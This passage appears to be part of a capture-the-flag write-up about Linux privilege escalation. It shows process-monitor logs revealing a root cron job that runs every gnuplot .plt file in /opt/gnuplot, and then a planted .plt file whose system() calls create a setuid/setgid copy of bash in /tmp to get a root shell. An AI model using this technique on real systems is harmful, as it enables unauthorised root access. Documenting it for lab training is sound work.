 According to the following results it seems that there is a code `find /opt/gnuplot -name *.plt -exec gnuplot {} ;` which searching for any plt files in the **/opt/gnuplot** adn execute it.

```
2023-09-25 18:22:42 CMD: UID=0     PID=2      | 
2023-09-25 18:22:42 CMD: UID=0     PID=1      | /sbin/init 
2023-09-25 18:24:01 CMD: UID=0     PID=99127  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023-09-25 18:24:01 CMD: UID=0     PID=99126  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023-09-25 18:24:01 CMD: UID=0     PID=99125  | /usr/sbin/CRON -f 
2023-09-25 18:24:01 CMD: UID=0     PID=99124  | /usr/sbin/CRON -f 
2023-09-25 18:24:01 CMD: UID=0     PID=99128  | 
2023-09-25 18:24:01 CMD: UID=0     PID=99134  | gnuplot /opt/gnuplot/loadplot.plt 
2023-09-25 18:24:01 CMD: UID=0     PID=99133  | cut -d   -f3,7 
2023-09-25 18:24:01 CMD: UID=0     PID=99132  | tr -s   
2023-09-25 18:24:01 CMD: UID=0     PID=99131  | grep enp 
2023-09-25 18:24:01 CMD: UID=0     PID=99129  | /bin/sh /opt/gnuplot/getdata.sh 
2023-09-25 18:24:01 CMD: UID=0     PID=99137  | /bin/sh /opt/gnuplot/getdata.sh 
2023-09-25 18:24:01 CMD: UID=0     PID=99136  | /bin/sh /opt/gnuplot/getdata.sh 
2023-09-25 18:24:01 CMD: UID=0     PID=99135  | /bin/sh /opt/gnuplot/getdata.sh 
2023-09-25 18:24:01 CMD: UID=0     PID=99138  | sed s/,//g 
2023-09-25 18:24:01 CMD: UID=0     PID=99139  | 
2023-09-25 18:24:01 CMD: UID=0     PID=99140  | 
2023-09-25 18:24:01 CMD: UID=0     PID=99141  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023-09-25 18:24:01 CMD: UID=0     PID=99144  | gnuplot /opt/gnuplot/networkplot.plt 
2023-09-25 18:25:01 CMD: UID=0     PID=99148  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023-09-25 18:25:01 CMD: UID=0     PID=99147  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023-09-25 18:25:01 CMD: UID=0     PID=99146  | /usr/sbin/CRON -f 
2023-09-25 18:25:01 CMD: UID=0     PID=99145  | /usr/sbin/CRON -f 
2023-09-25 18:25:01 CMD: UID=0     PID=99149  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023-09-25 18:25:01 CMD: UID=0     PID=99150  | /usr/sbin/CRON -f 
2023-09-25 18:25:01 CMD: UID=0     PID=99151  | /bin/sh /opt/gnuplot/getdata.sh 
2023-09-25 18:25:01 CMD: UID=0     PID=99155  | /bin/sh /opt/gnuplot/getdata.sh 
2023-09-25 18:25:01 CMD: UID=0     PID=99154  | tr -s   
```

So according to this [post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/) we can write a new plt file to the /opt/gnuplot and waiting for like 1 min and get command execution as `Root` 

Creating a copy of the `/bin/bash` file with the `SetUID/SetGID` 

```bash
cat > /opt/gnuplot/0xRyuzak1.plt << EOF
> system("cp /bin/bash /tmp/0xRyuzak1")
> system("chmod 6777 /tmp/0xRyuzak1")
> EOF
```

```
2023/11/04 18:41:06 CMD: UID=0     PID=1      | /sbin/init 
2023/11/04 18:42:01 CMD: UID=0     PID=99993  | /usr/sbin/CRON -f 
2023/11/04 18:42:01 CMD: UID=0     PID=99992  | /usr/sbin/CRON -f 
2023/11/04 18:42:01 CMD: UID=0     PID=99996  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/04 18:42:01 CMD: UID=0     PID=99995  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/04 18:42:01 CMD: UID=0     PID=99994  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/04 18:42:01 CMD: UID=0     PID=100002 | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/04 18:42:01 CMD: UID=0     PID=100001 | cut -d   -f3,7 
2023/11/04 18:42:01 CMD: UID=0     PID=100000 | tr -s   
2023/11/04 18:42:01 CMD: UID=0     PID=99999  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 18:42:01 CMD: UID=0     PID=99998  | netstat -i 
2023/11/04 18:42:01 CMD: UID=0     PID=99997  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/04 18:42:01 CMD: UID=0     PID=100006 | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 18:42:01 CMD: UID=0     PID=100005 | cut -d  -f 3 
```